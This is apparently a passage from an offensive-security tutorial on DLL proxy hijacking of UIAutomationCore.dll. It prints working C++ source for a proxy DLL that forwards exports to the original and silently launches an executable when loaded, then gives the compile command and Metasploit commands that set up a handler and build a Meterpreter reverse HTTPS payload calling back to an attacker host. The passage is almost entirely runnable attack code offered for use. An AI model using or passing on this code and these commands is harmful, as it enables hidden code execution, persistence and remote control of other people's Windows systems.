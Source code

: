 ```cpp
#pragma comment(linker,"/export:DllCanUnloadNow=UIAutomationCore_orig.DllCanUnloadNow,@2")
#pragma comment(linker,"/export:DllGetActivationFactory=UIAutomationCore_orig.DllGetActivationFactory,@1")
#pragma comment(linker,"/export:DllGetClassObject=UIAutomationCore_orig.DllGetClassObject,@3")
#pragma comment .....

#include <Windows.h>

void Not(void) {

    STARTUPINFO info={sizeof(info)};
    PROCESS_INFORMATION processInfo;

        CreateProcess(

					"C:\\Path\\to\\<name>.exe", 
					"", NULL, NULL, TRUE, 0, NULL, NULL, 
					&info, &processInfo);
}


BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  ul_reason_for_call, LPVOID lpReserved) {

    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
		Not();
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;

    }

    return TRUE;

}
```

> Let's compile our dll with `cl.exe` (MSVC) and with the x64 console of vs-2019

```
cl.exe /w0 /D_USRDLL /D_WINDLL UIAutomationCore.cpp /MT /link /DLL /OUT:UIAutomationCore.dll
```

> Next we will create and test with a msfvenom executable

```
systemctl restart postgresql

msfdb init

msfconsole -q -x "use exploit/multi/handler; set payload windows/x64/meterpreter/reverse_https; set LHOST ip; set LPORT 443; set EXITONSESSION false; exploit -j"

msfvenom -p windows/x64/meterpreter/reverse_https -ax64 -f exe LHOST=ip LPORT=443 > <name>.exe
```
